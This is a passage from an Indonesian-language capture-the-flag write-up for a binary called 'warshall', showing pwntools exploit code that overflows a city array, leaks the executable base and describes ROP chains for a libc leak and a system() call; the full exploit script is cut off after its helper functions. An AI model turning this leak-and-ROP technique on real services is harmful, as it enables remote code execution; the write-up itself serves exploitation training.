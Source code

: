 ```python
list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
p.recvuntil(": ")
l = struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

short_path('pwner', list_names[50])
p.recvuntil(": ")
l +=  struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

l = int(l, 16)
exec_base = l - 0x96b
print "EXEC BASE LEAK"
print hex(exec_base)
```

![Error](/assets/images/CJFinal-1.png)

### Menulis ROP Chain
Fungsi "Build direct road" memberi kita cara untuk menulis nilai kedalam array panjang jalan. Karena kita bisa mendapatkan overflow ke _return address_ (tanpa kena stack canary), kita dapat menulis nilai yang kita inginkan kedalamnya.

Kita memerlukan 2 ropchain, satu untuk leak libc dan satu lagi untuk panggil fungsi _system_ dan mendapatkan RCE.

Catatan: Dari pengalaman saya, sejak libc 2.27, parameter kedua dari fungsi _system_ harus diset menjadi NULL agar dapat panggil fungsi _system_ tanpa _segmentation fault_. Makanya ada beberapa angka nol yang diselipkan kedalam ropchain.

Berikut exploit lengkap saya:

```python


from pwn import *
import string
import random

p = process('./warshall')

def create_city(name):
  p.sendlineafter('>', '1')
  p.sendlineafter('name:', name)

def build_road(city1, city2, distance):
  p.sendlineafter('>', '2')
  p.sendlineafter('1:', city1)
  p.sendlineafter('2:', city2)
  p.sendlineafter('):', distance)

def short_path(city1, city2):
  p.sendlineafter('>', '3')
  p.sendlineafter('1:', city1)
```